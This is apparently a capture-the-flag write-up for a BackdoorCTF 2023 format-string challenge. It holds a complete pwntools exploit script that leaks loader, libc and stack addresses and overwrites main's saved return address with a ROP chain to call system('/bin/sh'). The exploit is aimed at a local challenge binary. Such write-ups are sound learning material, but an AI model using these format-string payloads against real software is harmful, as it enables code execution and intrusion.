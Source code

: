 ## Level: Easy

### Challenge

I got the binary, libc and loader from: https://github.com/sajjadium/ctf-archives/blob/main/ctfs/BackdoorCTF/2023/pwn/Baby_Formatter/README.md

Use `pwninit` or `patchelf` to patch the binary. 
```
  cp fmt1 fmt1_patched
  patchelf --set-interpreter ./ld-linux-x86-64.so.2 fmt1_patched
  patchelf --set-rpath . fmt1_patched
```

Cool challenge by __@p0ch1ta__, format string exploit with some filtered chars. This challenge made me realize that I should automate stuff with pwntools and python functions.

### Checksec
![checksec](https://github.com/user-attachments/assets/e040f7ec-3a06-41dd-a1b7-aa411c8d9fe5)

### Leaking info
Btw, they gave us an option to leak an address in libc and in the stack but I didn't take it :P

![noob](https://github.com/user-attachments/assets/7fc15592-e220-4227-aa85-c327c55cb772)

Anyway, `%p` `%u` `%d` and `%x` is filtered but we can still use `%s` and `%o` to leak info. Due to `Full RELRO` we can't overwrite the got entries. Perhaps we can overwrite a got entry in `libc` because it's __Partial RELRO__ but I ended up overwriting _saved rip_ of main to call **system("/bin/sh")**.

### Local Flag

![realflag](https://github.com/user-attachments/assets/67de5c3e-b633-4388-89b3-e5b102a40dad)

### Full Exploit
```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
'''
p = gdb.debug("./fmt1_patched", gdbscript="""
    b *main+159
    c
""")
'''

p = process("./fmt1_patched")

# leak an address in loader for gadgets
# the binary doesn't have useful gadgets
payload = b"%27$s"

p.recvuntil(b">> ")
p.sendline(b"2")

p.recvuntil(b">> ")
p.sendline(payload)

ld_leak = p.recvline().strip()

ld_leak = u64(ld_leak.ljust(8, b"\x00"))

ld_base = ld_leak - 242400
print("LD_BASE: " + hex(ld_base))

# useful gadgets
POP_RSP = ld_base + 0x00000000000021d3 
POP_RSI = ld_base + 0x00000000000054da
POP_RDI = ld_base + 0x000000000000351e 
RET = ld_base + 0x2128

# leak libc and stack addresses in octal
payload = b"%17$lo %21$lo %11$lo"

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

leak = p.recvline().strip()

# convert octal to int
libc_leak = int(leak[:16], 8)
stack_leak = int(leak[17:33], 8)

# calculate offsets
libc_base = libc_leak - 171408
ret_addr = stack_leak - 272
bin_sh = libc_base + 1934968 
system = libc_base + 331120

# overwrite the saved rip of main with "pop_rdi"
# split the address so copying is less painful (2 bytes each time instead of 4)
print("OVERWRITING saved rip with 'pop_rdi'...")
pop_rdi = hex(POP_RDI)[6:]
pop_rdi2 = hex(POP_RDI)[10:]
pop_rdi3 = pop_rdi[:4]

pop_rdi = int(pop_rdi, 16)
pop_rdi2 = int(pop_rdi2, 16)
pop_rdi3 = int(pop_rdi3, 16)

# copy the less significant 2 bytes
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr)
payload += p16(pop_rdi2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the next 2 bytes 
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr+2)
payload += p16(pop_rdi3)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# overwrite ret_addr+8 of main with "/bin/sh"
# in gdb to find "/bin/sh" string in libc (get the offsets with vmmap):
# find 0x00007ff799702000, 0x00007ff7998eb000, '/', 'b', 'i', 'n', '/', 's', 'h'
# copy the less significant 4 bytes
print("WRITING '/bin/sh' ONTO THE STACK...")
bin_sh1 = hex(bin_sh)[6:]
bin_sh1 = int(bin_sh1, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+8)
payload += p32(bin_sh1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
bin_sh2 = hex(bin_sh)[:6]
bin_sh2 = int(bin_sh2, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+12)
payload += p32(bin_sh2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# align the stack with "ret"
# copy the less significant 4 bytes
print("ALIGNING THE STACK FOR SYSTEM...")
ret1 = hex(RET)[6:]
ret1 = int(ret1, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+16)
payload += p32(ret1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
ret2 = hex(RET)[:6]
ret2 = int(ret2, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+20)
payload += p32(ret2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# call system
# copy the less significant 4 bytes
print("WRITING system('/bin/sh')...")
system1 = hex(system)[6:]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+24)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
system1 = hex(system)[:6]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+28)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

print("shell in 3...")
p.interactive()
```

<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMHlnZGtkaWFpN2ZmZHk4OWl0cnQ4OW5nM3hhZmlyMHZwYXJudnlveCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/u2dI2h52gAzNS/giphy.webp>

See? That's why I said I should automate stuff 🥀





